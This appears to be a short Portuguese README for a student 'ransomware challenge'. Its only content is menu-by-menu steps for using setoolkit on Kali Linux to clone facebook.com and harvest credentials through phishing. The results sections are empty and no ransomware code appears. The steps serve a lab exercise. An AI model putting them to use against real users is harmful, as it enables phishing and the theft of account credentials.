




# Desafio Ransomware

### Ferramentas

- Kali 
- VSCode

### Configurando o Phishing no Kali Linux

- Configuração de rede: ```Placa em modo brigde ```
- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` 1) Social-Engineering Attacks ```
- Vetor de ataque: ``` 2) Web Site Attack Vectors ```
- Método de ataque: ``` 3) Credential Harvester Attack Method ```
- Método de ataque: ``` 2) Site Cloner ```
- set:webattack> IP address for the POST back in Harvester/Tabnabbing  [seu.Ip.aparece.aqui]: ``` Tecle Enter ```
- URL para clone: http://www.facebook.com

### Resutado Kali





### Resutado VSCode




